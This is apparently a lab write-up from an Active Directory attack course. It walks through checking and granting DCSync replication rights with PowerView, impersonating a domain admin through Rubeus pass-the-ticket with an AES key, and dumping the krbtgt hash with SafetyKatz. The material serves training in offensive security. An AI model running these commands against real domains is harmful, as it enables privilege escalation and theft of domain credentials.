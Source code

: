 # 🪞 Check for DCSync rights, add them and pull hashes

First let's launch Powervew and look if we have replication rights

{% hint style="info" %}
Replication rights in Active Directory (AD) refer to the permissions that control which users or groups can replicate directory information between domain controllers. These rights are crucial for ensuring the integrity and security of the replication process within an AD environment.
{% endhint %}

We can check if we have replication rights using the following commands

```
. C:\AD\Tools\PowerView.ps1 
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx"}
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we don't have replication rights, let's add them. Start a process as Domain Administrator by running the below comman from an elevated command prompt:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

this command will spawn a shell, now in the new process we can run the bypass command, run PowerView and then ->

```
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student613 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now on a normal shell we can go and look and check for out rights ->

```
Get-DomainObjectAcl -SearchBase"DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx613"} 
```

Now we'll need to encode `lsadump::dcsync`

and launch this command:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit"
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
